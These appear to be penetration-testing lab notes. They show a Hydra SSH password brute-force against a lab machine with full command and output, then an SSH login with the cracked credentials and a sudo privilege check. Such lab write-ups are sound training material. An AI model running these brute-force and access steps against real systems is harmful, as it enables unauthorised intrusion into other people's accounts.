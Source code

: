 ```
...
```

Since an SSH server is available on our target machine, we can try to attempt a remote brute force attack via <mark style="background: #D2B3FFA6;">Hydra</mark>
+ We'll supply the target username with the **-l** parameter, our wordlist with **-P**, the target IP address, and finally **ssh** as the target protocol. We will also include **-V** to increase verbosity
+ Usage:
```
hydra -l <USER> -P <WORDLIST>  <IP> -t 4 ssh -V
```
+ Example usage and output:
```
kali@kali:~$ hydra -l eve -P wordlist  192.168.50.214 -t 4 ssh -V
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-08-23 14:30:44
[DATA] max 4 tasks per 1 server, overall 4 tasks, 1000 login tries (l:1/p:1000), ~250 tries per task
[DATA] attacking ssh://192.168.50.214:22/
[ATTEMPT] target 192.168.50.214 - login "eve" - pass "Lab000" - 1 of 1000 [child 0] (0/0)
[ATTEMPT] target 192.168.50.214 - login "eve" - pass "Lab001" - 2 of 1000 [child 1] (0/0)
[ATTEMPT] target 192.168.50.214 - login "eve" - pass "Lab002" - 3 of 1000 [child 2] (0/0)
[ATTEMPT] target 192.168.50.214 - login "eve" - pass "Lab003" - 4 of 1000 [child 3] (0/0)
[ATTEMPT] target 192.168.50.214 - login "eve" - pass "Lab004" - 5 of 1000 [child 2] (0/0)
...
[ATTEMPT] target 192.168.50.214 - login "eve" - pass "Lab120" - 121 of 1000 [child 0] (0/0)
[ATTEMPT] target 192.168.50.214 - login "eve" - pass "Lab121" - 122 of 1000 [child 3] (0/0)
[ATTEMPT] target 192.168.50.214 - login "eve" - pass "Lab122" - 123 of 1000 [child 2] (0/0)
[ATTEMPT] target 192.168.50.214 - login "eve" - pass "Lab123" - 124 of 1000 [child 1] (0/0)
[22][ssh] host: 192.168.50.214   login: eve   password: Lab123
1 of 1 target successfully completed, 1 valid password found
```

Our hydra brute forcing attack succeeded and we can now directly log in to the target machine with eve's credentials via SSH:
```
kali@kali:~$ ssh eve@192.168.50.214
eve@192.168.50.214's password:
Linux debian-privesc 4.19.0-21-amd64 #1 SMP Debian 4.19.249-2 (2022-06-30) x86_64
...
eve@debian-privesc:~$
```

Once logged in as _eve_, we can verify if we are running as a privileged user by listing the sudo capabilities using the **sudo -l** command
+ Usage:
```
sudo -l
```
+ Example output:
```
[sudo] password for eve:
Matching Defaults entries for eve on debian-privesc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User eve may run the following commands on debian-privesc:
    (ALL : ALL) ALL
```
